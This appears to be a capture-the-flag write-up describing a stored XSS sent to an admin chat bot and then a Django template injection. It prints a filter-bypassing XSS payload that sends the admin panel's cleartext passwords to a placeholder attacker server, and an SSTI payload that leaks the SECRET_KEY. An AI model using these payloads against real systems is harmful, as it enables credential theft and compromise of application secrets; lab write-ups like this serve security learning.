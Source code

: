 1. There was an xss in chat function with the admin , register as any user
2. Test with different tags and payloads ,should notice that all the html tags are blocked except custom made ones and `<style>`
3. With payload you should either target `/flag1` to get the FLAG1 or `/panel` to get the passwords of the users and continue for the FLAG2 
Following XSS payload was one of them that works:
```html
<style>@keyframes x{}</style>
<xss style="animation-name:x" onanimationend="fetch('/panel').then(r=>r.text()).then(d=>{new Image().src='[ATTACKER-SERVER-HERE]?leak='+encodeURIComponent(d)})"></xss>
```
4. Send it to the admin chat and wait for automated bot to see the message (should happen every 3 seconds)
<img src="Pasted image 20250412200921.png">
 after rendering you can clearly see that passwords are stored in cleartext format in `/panel` endpoint:
 ![[Pasted image 20250412201107.png]]
 after become and admin FLAG1 here
<img src="Pasted image 20250412202005.png">

5. After becoming an admin you can edit the contents of the which will be rendered by server side:
![[Pasted image 20250412202511.png]]

<img src="Pasted image 20250412202429.png">

6. It means SSTI , but with Django SSTI maximum you can read the `SECRET_KEY` of the application (not RCE , let know if you know a way to achieve code execution with django ssti)
You can easily guess that from the source code shared with you:
<img src="Pasted image 20250412202801.png">

7. Insert the following template injection payload
```
{{ messages.storages.0.signer.key }}
```
<img src="Pasted image 20250412202944.png">
and update the page for FLAG2:
<img src="Pasted image 20250412203028.png">
